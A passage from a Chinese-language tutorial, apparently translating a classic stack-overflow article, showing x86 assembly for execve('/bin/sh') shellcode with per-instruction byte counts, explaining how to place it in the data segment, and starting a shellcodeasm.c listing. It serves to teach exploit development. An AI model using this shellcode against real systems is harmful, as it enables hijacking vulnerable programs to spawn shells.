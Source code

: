 &nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x0,0xc(%esi)&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 7 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0xb,%eax&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; # 5 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%esi,%ebx&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; # 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;leal&nbsp; &nbsp;0x8(%esi),%ecx&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 3 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;leal&nbsp; &nbsp;0xc(%esi),%edx&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 3 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;int&nbsp; &nbsp; $0x80&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x1, %eax&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;# 5 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x0, %ebx&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;# 5 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;int&nbsp; &nbsp; $0x80&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;call&nbsp; &nbsp;-0x2b&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 5 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;.string ""/bin/sh""&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; # 8 bytes

------------------------------------------------------------------------------

&nbsp; &nbsp; 

&nbsp; &nbsp; 这看起来很不错了. 为了确保代码能够正常工作必须编译并执行. 但是还有一个问题.

我们的代码修改了自身, 可是多数操作系统将代码页标记为只读. 为了绕过这个限制我们

必须把要执行的代码放到堆栈或数据段中, 并且把控制转到那里. 为此应该把代码放到数

据段中的全局数组中. 我们首先需要用16进制表示的二进制代码. 先编译, 然后再用gdb

来取得二进制代码.

shellcodeasm.c

------------------------------------------------------------------------------

void main() {

__asm__("

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;jmp&nbsp; &nbsp; 0x2a&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;# 3 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;popl&nbsp; &nbsp;%esi&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;# 1 byte
